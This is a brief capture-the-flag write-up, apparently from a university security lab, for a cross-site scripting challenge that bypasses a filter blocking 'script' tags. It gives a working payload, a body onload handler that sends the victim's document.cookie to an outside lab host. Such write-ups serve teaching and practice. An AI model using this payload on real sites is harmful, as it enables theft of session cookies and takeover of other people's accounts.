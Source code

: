 # Challenge `Give me more than a simple WAF` writeup

- Vulnerability: Cross-Site Scripting Lab (XSS)

- Where: feedback_link input through search input (lure admin)

- Impact: attacker is able to inject malicious code in the webpage in order to get other's person cookies

---

## Steps to reproduce

1. Exactly the same logic as the previous challenge, so use the previous code, but now use 'body' instead of 'script', since 'script' is blocked
2. With 'body' you will now have to put the code inside an onload function, like this:
- < body onload="window.location.href = 'http://nexus.rnl.tecnico.ulisboa.pt:PORT/?cookie='.concat(encodeURIComponent(document.cookie))">


[(POC)](Give_me_more_than_a_simple_WAF.txt)

